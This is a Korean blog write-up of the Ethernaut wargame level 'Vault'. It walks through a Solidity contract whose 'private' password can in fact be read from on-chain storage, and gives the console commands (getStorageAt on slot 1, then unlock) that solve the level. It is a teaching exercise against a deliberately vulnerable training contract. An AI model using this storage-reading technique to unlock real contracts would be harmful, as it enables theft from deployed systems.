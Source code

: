 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 8) Vault
date: '2022-01-10 19:18:00'
author: 한성원
tags: ethernaut Vault vulnerability
categories: 취약점분석
---
```



# 👋 Vault
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- vault를 unlock하면 승리한다.
- locked 변수를 false로 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract Vault {

    bool public locked;
    
    // private으로 정의된 비밀번호
    bytes32 private password;

    // constructor: password를 parameter로 받음
    constructor(bytes32 _password) public {
        // valut의 lock을 건다
        locked = true;
        // parameter password를 private 변수에 저장
        password = _password;
    }

    // 올바른 비밀번호를 입력하면 vault를 unlock할 수 있는 function
    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
- - -

## 풀이
이 문제에서 우리의 목표는 vault를 unlock하는 것이다.

위에 코드에서 보다싶이 우리는 올바른 비밀 번호를 가지고 unlock()을 실행시키면 vault를 unlock 할 수 있다는 것을 알 수 있다. 여기서 유심히 봐야할 점은 password가 smart contract에 저장되어 있다는 점이다. 블록체인 특성상 private으로 정의되었어도 외부에서 정보를 확인할 수 있다. [Privacy 관련 취약점](https://holyhansss.github.io/vulnerability/private_variable/private_variable/)을 확인해 보자!

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 우리는 web3 library를 사용한다.
// getStorageAt API를 사용하여 storage의 slot 1에 저장되어 있는 32 bytes의 data를 가져온다.
// 결과 값: 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
await web3.eth.getStorageAt(instance, 1)

// 얻은 password와 함꼐 unlock()을 실행시키면 vault가 unlock 된다!
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

// 얻은 password를 우리가 읽을 수 있게 바꾸고 싶다면?
// 결과 값: 'A very strong secret password :)'
await web3.utils.toAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

```

Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
이 문제를 완벽하게 이해하기 위해서는 slot, 즉 storage에 대한 깊은 이해가 필요하다. slot은 2^256개가 존재하며 각각 32 bytes를 store할 수 있다. variable type에 따라 하나의 slot에 여러개의 변수가 저장될 수 있으며 slot의 우측에서부터 저장된다.

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- Privacy 취약점: https://holyhansss.github.io/vulnerability/private_variable/private_variable/

```toc

```